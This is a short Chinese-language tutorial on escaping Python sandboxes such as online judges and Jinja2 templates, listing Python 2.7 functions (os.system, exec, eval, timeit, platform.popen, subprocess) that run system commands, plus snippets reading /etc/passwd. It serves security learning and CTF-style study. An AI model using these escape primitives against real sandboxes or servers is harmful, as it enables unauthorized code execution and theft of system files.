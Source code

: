 # python沙箱逃逸

## 概述
python沙箱逃逸主要是用于一些沙箱环境，如一些OJ或者一些在线交互终端，以及jinja2这种python模板解释器  
  
沙箱一般是限制指定函数的运行，或者对指定模块的删除以及过滤  

沙箱逃逸就是要逃离这种限制，让对方服务器运行我们指定的恶意代码，以达到getshell或者文件读取的目的
  
最后，这里的python沙箱逃逸用的是python2.7，python3可能有所不同  
  
## 一些任意代码执行以及文件读取的函数
**os** 执行系统命令
```python
import os
os.system('ipconfig')
```
  
**exec**  任意代码执行
```python
exec('__import__("os").system("ipconfig")')
```
  
**eval**  任意代码执行
```python
eval('__import__("os").system("ipconfig")')
```
  
**timeit**  本是检测性能的，也可以任意代码执行
```python
import timeit
timeit.timeit("__import__('os').system('ipconfig')",number=1)
```

**platform**
```python
import platform
platform.popen('ipconfig').read()
```
  
**subprocess**
```python
import subprocess
subprocess.Popen('ipconfig', shell=True, stdout=subprocess.PIPE,stderr=subprocess.STDOUT).stdout.read()
```
  
**file**
```python
file('/etc/passwd').read()
```
  
**open**
```python
open('/etc/passwd').read()
```
